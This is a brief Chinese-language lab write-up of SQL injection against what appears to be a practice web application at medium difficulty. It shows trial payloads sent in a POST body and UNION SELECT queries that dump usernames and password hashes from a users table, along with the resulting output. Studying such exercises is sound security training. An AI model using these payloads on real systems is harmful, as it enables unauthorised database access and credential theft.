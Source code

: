 # SQL Injection

medium 難度換成使用選單 POST 送出

```json
{
  "id": "3",
  "Submit": "Submit"
}
```

### try

```sql
3' OR '1'='1
```

```sql
id=3'%20OR%20'1'%3D'1&Submit=Submit
```

```sql
id=3' OR '1'%3D'1&Submit=Submit
```

多試幾次之後，發現將 `'` 拿掉就可以注入了 @@

Request Body:

```sql
id=1 OR 2&Submit=Submit
```

因為之前已經知道欄位名稱了，所以直接選取即可

Request Body:

```sql
id=1 union select user_id, first_name, last_name from users;&Submit=Submit
```

### Done

Request Body:

```sql
id=1 union select last_name,password from users;&Submit=Submit
```

```sql
ID: 1 union select last_name,password from users;
First name: admin
Surname: admin

ID: 1 union select last_name,password from users;
First name: admin
Surname: b59c67bf196a4758191e42f76670ceba

ID: 1 union select last_name,password from users;
First name: Brown
Surname: e99a18c428cb38d5f260853678922e03

ID: 1 union select last_name,password from users;
First name: Me
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: 1 union select last_name,password from users;
First name: Picasso
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: 1 union select last_name,password from users;
First name: Smith
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```
